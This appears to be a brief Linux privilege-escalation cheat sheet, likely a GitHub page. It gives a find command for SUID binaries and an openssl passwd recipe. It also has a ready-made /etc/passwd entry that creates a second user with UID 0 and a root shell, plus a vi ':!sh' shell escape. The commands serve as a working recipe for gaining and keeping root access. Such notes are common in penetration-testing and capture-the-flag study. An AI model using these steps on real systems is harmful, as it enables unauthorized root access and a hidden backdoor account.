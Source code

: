 ## Finding SUID Binaries
```
find / -perm -u=s -type f 2>/dev/null
```
## Create Salt Passwd
```
openssl passwd -1 -salt [salt] [password]

salt:new passwd:123

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## vi escalation
```
:!sh
```
